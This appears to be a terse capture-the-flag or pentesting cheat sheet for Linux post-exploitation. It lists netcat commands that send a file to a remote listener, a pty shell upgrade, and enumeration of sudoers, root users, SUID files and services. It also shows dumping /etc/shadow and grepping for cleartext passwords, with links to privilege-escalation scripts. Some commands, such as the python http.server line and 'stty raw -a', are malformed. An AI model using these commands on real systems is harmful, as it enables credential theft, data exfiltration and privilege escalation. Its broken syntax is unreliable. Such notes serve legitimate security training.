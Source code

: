 __send file through netcat(listener)__

nc -lvnp port > flag.txt

__send file thru netcat (sender)__

nc -w 3 listener ip port < flag.txt

__python server__

( python3 -m http.server 192.168.0.104:8080 )

__interactive shell__

(python -c "import pty;pty.spawn('/bin/sh')")

__change from non interactive to interactive__

(*echo $SHELL (variable yg dh diset)*echo $TERM*export SHELL=/bin/bash*export TERM=xterm-256color*stty -a*stty raw -a)

__system/user info__

(uname -a, env, whoami, history, pwd -> searchsploit)

__check sudoers__ 

(sudo -l, cat /etc/sudoers)

__other super users__

( grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}')

__network info__

( ifconfig -a, netstat -antup, lsof -i)

__enum serv/softw__

( ps aux, ps -ef)

__SUID files__

(find / -perm -u=s -type f 2>/dev/null)

__pw hashes__

(cat /etc/shadow)

__check cleartxt cred__

(find . -type f -maxdepth 4 | xargs grep -i "password")

__reference__

_http://www.securitysift.com/download/linuxprivchecker.py_

_https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh_

_https://gtfobins.github.io/_

